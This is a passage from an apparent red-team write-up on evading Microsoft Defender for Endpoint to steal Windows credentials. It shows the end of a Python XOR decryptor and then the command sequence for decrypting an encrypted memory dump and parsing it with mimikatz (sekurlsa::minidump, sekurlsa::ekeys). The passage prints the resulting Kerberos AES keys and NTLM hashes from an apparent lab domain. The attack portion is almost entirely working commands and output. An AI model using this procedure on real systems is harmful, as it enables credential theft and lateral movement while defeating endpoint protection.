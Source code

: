 ```
print("Xor Key: {}".format(key.decode()))
sys.exit()
```

Decrypt the dump and finally parse it locally using mimikatz such as follows.

```
C:\> python .\decryptor.py .\ENCRYPTED.dmp
XORed output saved to "DECRYPTED.DMP"
Xor Key: ripLs4SS123

C:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 13 2022 17:51:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump DECRYPTED.dmp
Switch to MINIDUMP : 'DECRYPTED.dmp'

mimikatz # sekurlsa::ekeys
Opening : 'DECRYPTED.dmp' file for minidump...

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : TEST$
Domain            : BYPASSMDE
Logon Server      : (null)
Logon Time        : 24-03-2024 15:55:13
SID               : S-1-5-20

         * Username : test$
         * Domain   : BYPASSMDE.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       4c9952ab599063d02f8d4c1cbf54bd058f740c83f9067d3f1223dce73a05467e
           rc4_hmac_nt       d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_old      d50adb935a746e35f9faccd4f7c62b69
           rc4_md4           d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_nt_exp   d50adb935a746e35f9faccd4f7c62b69
           rc4_hmac_old_exp  d50adb935a746e35f9faccd4f7c62b69

[snip]

mimikatz # exit
Bye!
```

### Conclusion
